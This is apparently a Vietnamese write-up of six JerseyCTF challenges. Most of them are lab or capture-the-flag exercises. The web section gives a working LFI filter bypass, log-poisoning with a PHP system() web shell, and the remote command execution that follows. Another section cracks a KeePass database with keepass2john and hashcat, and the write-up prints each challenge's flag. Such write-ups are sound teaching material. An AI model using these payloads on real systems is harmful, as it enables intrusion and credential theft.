`put-the-cookie-down   WEB   50  Point
poisoned              WEB   688 Point
sho-me-how-to-mine    Osint 614 Point
using-the-map         Osint 677 Point
crack-keepass         Misc  97  Point
securing-environments Misc  747 Point

# put-the-cookie-down
WEB

50 point

## Description


## Hint
There is far more to Chrome DevTools than Inspect Element, what else can you find in there?

## Solution
Sau khi truy cập link được cung cấp thì mình nhận được 1 trang web như này.


Dựa vào hint của đề bài mình Inspect để tìm kiếm flag
tìm theo chuỗi 'jctf{' không thấy gì nên mình nghĩ là flag không theo định dạng sẵn như vậy.
sau 1 lúc tìm kiếm thì mình tìm thấy flag trong phần Cookie



flag: jctf{I_WILL_BE_BACK_FOR_MORE_C00KI3S!}

# poisoned
WEB

688 point

## Description


## Solution
Tương tự mình tiếp tục tuy cập liên kết được cung cấp và nhận được một website như sau:


đề bài có dự kiện liên quan tới việc đầu độc làm mình liên tưởng tới poisoned log, lỗ hổng này cần tấn công thông quan Local File Inclusion để thực thi mã từ xa
Vì vậy nếu tìm thấy lỗ hổng LFI trên website này thì chứng minh mình đúng.

Đề bài đã gợi ý sẵn: https://jerseyctf-poisoned.chals.io/?page=welcome  

có một tham số tên là page mình sẽ thử LFI ở đây. 

payload 1: https://jerseyctf-poisoned.chals.io/?page=../../../../../../../../../../../../etc/passwd
web báo lỗi như sau: 

hmm nhìn cứ như bị chặn ấy nhỉ

thôi để cho chắc chắn thì mình nghĩ nên intruder chứ ai mà biết nó filter cái gì.

sau một hồi chạy intruder mình tìm thấy paylaod đúng đây: https://jerseyctf-poisoned.chals.io/?page=....//....//....//....//....//....//....//etc/passwd



Tiếp theo để thực hiện Poinsoned log thì mình cần phải biết file log là gì.

ta lại tiếp tục thay đoạn etc/passwd bằng cách log file phổ biến.
sau một hồi Intruder nữa mình tìm thấy log file này: https://jerseyctf-poisoned.chals.io/?page=....//....//....//....//....//....//....//var/log/apache2/access.log

Ta thấy log này lưu trữ các truy cập từ người dùng đúng không. kể cả nãy giờ mình truy cập etc/passwd với access.log nó cũng lưu
tiếp theo chèn đoạn php sau: <?php system($_GET['poison']);?> bằng cách truy cập link:
https://jerseyctf-poisoned.chals.io/<?php system($_GET['poison']);?>   để nó được lưu vào access.log

cái đoạn /<?php system($_GET['poison']);?>  này cũng sẽ được lưu vào file access.log và điều hay ở chỗ ta có thể thực thi được nó luôn

Tiếp theo chỉ cần truy cập: https://jerseyctf-poisoned.chals.io/?page=....//....//....//....//....//....//....//var/log/apache2/access.log&poison=ls%20/ để thực thi mã



flag: jctf{4PachE_L0G_POiS0nInG}

# sho-me-how-to-mine
MISC

614 Point

## Description


## Hint
What are we capturing in a CTF?

## Solution
Bài này thì đề bài gợi ý khá kỹ . chỉ cần đoán 1 chút xíu, nhưng mà trong Hint cũng có luôn rồi
Đề bài có nhắc tới: Minecraft Java Edition server,  Shodan

Mình vào shodan và tìm kiếm máy chủ: Minecraft Java Edition

Chỉ có 40 kết quả thôi này. có vẻ như mình sẽ tìm flag trong mấy cái server này.


Sau khi xem 1 hồi mình không thấy cái flag nào cả.

đề bài gợi ý: chúng ta đang capture cái gì trong ctf?  => flag

đổi tìm kiếm thành: Minecraft Java Edition flag


>> =)))

sau khi thay đổi 1 chút thì mình tìm thấy flag ở đây: https://www.shodan.io/search?query=Minecraft+flag


flag: jctf{mining_s1nc3_2011!}

# using-the-map
MISC

677 Point

## Description


## HInt
Children's toy commercials be like: "Buy this map today for the low cost of $149.99 (5 payments) with free shipping and handling! Taxes and net-tools not included. Credit card, cash, and ip command all accepted."

## Solution
có một số từ khoá mình cần chú ý: using-the-map , PRIVATE IP addresses, good friend 22/tcp, Skynet, Virtual Private Cloud (VPC)
Còn về cái Hint thì mình không hiểu lắm. chả liên quan!!!

Mình được cung cấp một số kết nối SSH và mật khẩu, mình tiến hành kết nối tới nó: 


hmm có nhiều file ghê. 

đến đây mình có thể đọc file .bash_history xem người dùng trước đó đã chạy lệnh gì rồi mình làm theo để lấy flag. lúc đầu mình cũng không nghĩ tới cách này. 


Theo gọi ý của đề bài thì mình thấy có ip: và /22tcp và đề bài cũng gợi ý using-the-map nên mình sẽ run lệnh:
ip a : dể xem ip local là bao nhiêu. 


tiếp theo scan toàn bộ dịch vụ đang mở bằng lệnh: nmap 192.168.25.0/24
mình sẽ thấy có đúng một ip: 192.168.25.3 đang mở hai dịch vụ là 22 và 111.


theo như đề bài thì mình cần lấy được version của cái dịch vụ 111 này

sửa lại lệnh nmap: nmap -sV 192.168.25.3


sau khi có đủ version thì mình gộp lại thành flag: jctf{rpcbind 2-4}

# crack-keepass
MISC

97 Point

## Description


## Hint
Your friend John might be able to help.

## Solution
đề bài cung cấp cho mình một file .kbbx nó là một Keepass database

mở file bằng lệnh: keepassxs Database.kdbx



Ồ file này có mật khẩu.

tiếp theo cần tìm được mật khẩu của file này nhé.
Đề bài gợi ý sử dụng anh bạn john để crack kìa. nhưng mình sẽ dùng hashcat


trước tiên chuyển nó sang hash cái đã: keepass2john Database.kdbx > hash
Sau đó run lệnh: hashcat -a 0 -m 13400 --force hash /usr/share/wordlists/rockyou.txt

Sau khi chạy lệnh này và chờ đợi thì mình tìm thấy password của file là: 1jersey

đến ta mở giao diện của kdbx bằng lệnh: keepassxc và nhập password


và lấy flag

flag: jctf{pr073c7_y0ur_v4ul7}

# securing-environments
MISC
746 Point

## Description


## Hint
What are best practices for domain names of development/testing, staging, and production company environments?

## Solution
Dựa vào hint mình thực hiện recon cho cái link mà bài này cung cấp: https://thehackernews.com/2022/12/lastpass-admits-to-severe-data-breach.html
sau rồi mày mò ở đây lâu quá, mình không thấy gì cả. có lẽ nó chỉ là tài liệu tham khảo.

mình chuyển đối tượng sang: https://ctf.jerseyctf.com

đề bài có nhắc tới domain development/testing.  Mình thực hiện tìm subdomain và thấy một số cái sau:


subdomain .dev ư . có lẽ nào?


Truy cập vào subdomain này một hồi lâu mình tìm kiếm và đến cái nịt cũng không có. Nhưng chắc chắn là vẫn liên quan và đang đi đúng hướng.

mình thử đọc source code thì thấy có cái mã key gì đó được fix cứng này



ngoài ra, mình test thử chức năng reset mật khẩu


cũng không có gì ở đây cả, nó chỉ hoạt động với các tài khoản đã tồn tại.

Mình nhận ra là ở trang chủ có 1 cái email: jctf-testing-support-group@njit.edu , mình thử send tạm một cái email 


nó tưởng mình là devloper hay gì nè: `Hi JerseyCTF Developer! Here is the registration code you are looking for: stormphotographdeliveryshow`

một kiểu Phishing

vậy là mình có được register key:  =)))
mình tiến hành đăng ký và đăng nhập: 


bên trong mình thấy có mỗi 1 challange có sẵn solved luôn =)))


flag: jctf{dOnt_b3_LIK3_LASTp@ss}

đây là writeup từ nhà phát triển =))) hack để xem writeup :)))
`Solution Steps
The answer to the hint is that "dev." is used in the subdomain for development environment domain names. This is either known already or can be Googled to find this source with the top answer providing this information.
Navigate to https://dev.jerseyctf.com and then email jctf-testing-support-group@njit.edu for the Registration Code acting as a challenge developer, simulating social engineering.
jctf-testing-support-group@njit.edu will auto-reply with a registration code. Register on the site with this and then look through the "test challenges."
This real challenge will have its own "test" challenge listed and the flag will be leaked in the description.
Flag: jctf{dOnt_b3_LIK3_LASTp@ss}`

